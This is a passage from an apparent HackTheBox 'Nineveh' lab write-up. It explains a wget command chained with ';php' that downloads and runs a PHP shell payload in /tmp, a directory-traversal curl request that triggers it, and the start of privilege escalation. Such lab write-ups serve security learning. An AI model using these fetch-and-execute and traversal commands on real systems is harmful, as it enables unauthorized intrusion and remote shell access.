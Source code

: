 
`wget - downloads the the main file on the target machine`

`-O /tmp/shell.php - converts the text file into php so we can execute it and saves it inside /tmp folder`

`;php /tmp/shell.php - runs the php file with our malicious payload inside`

> Note: Make sure you use `-O` (capital) because `-o` has different output which won't work!
 
To activate our php script that downloads the malicious file, an HTTP request is needed. How would we do such thing though? Remember the previous dashboard we found on port 80? Look at the url after clicking "Notes":

<a href="/img/blog/htb-nineveh/htb-nineveh-12.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-nineveh/htb-nineveh-12.png"></a>

It seems innocent but I immediately noticed a possible directory traversal vulnerability which indeed worked. After accessing the uploaded shell (either using a browser or curl) the php got activated and we got a shell!
```console
root@EdgeOfNight:# curl 10.10.10.43/department/manage.php?notes=files/ninevehNotes.php/../../../../../../var/tmp/shell.php
```
> Note: Change ninevehNotes.txt into ninevehNotes.php 

<a href="/img/blog/htb-nineveh/htb-nineveh-13.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-nineveh/htb-nineveh-13.png"></a>

***

# Privilege escalation

### - Shorter method

Do `ls -la /`
```console
$ ls -la
total 100
drwxr-xr-x  24 root   root    4096 Jul  2 21:07 .
drwxr-xr-x  24 root   root    4096 Jul  2 21:07 ..
drwxr-xr-x   2 root   root    4096 Jul  2 18:05 bin
drwxr-xr-x   3 root   root    4096 Jul  2 18:20 boot
drwxr-xr-x  19 root   root    4240 Dec 16 08:02 dev
drwxr-xr-x  93 root   root    4096 Aug  5 10:18 etc
drwxr-xr-x   3 root   root    4096 Jul  2 18:41 home
lrwxrwxrwx   1 root   root      32 Jul  2 17:58 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  22 root   root    4096 Jul  2 18:05 lib
drwxr-xr-x   2 root   root    4096 Jul  2 19:48 lib64
drwx------   2 root   root   16384 Jul  2 17:57 lost+found
drwxr-xr-x   3 root   root    4096 Jul  2 17:58 media
drwxr-xr-x   2 root   root    4096 Feb 15  2017 mnt
drwxr-xr-x   2 root   root    4096 Feb 15  2017 opt
dr-xr-xr-x 203 root   root       0 Dec 16 08:02 proc
```
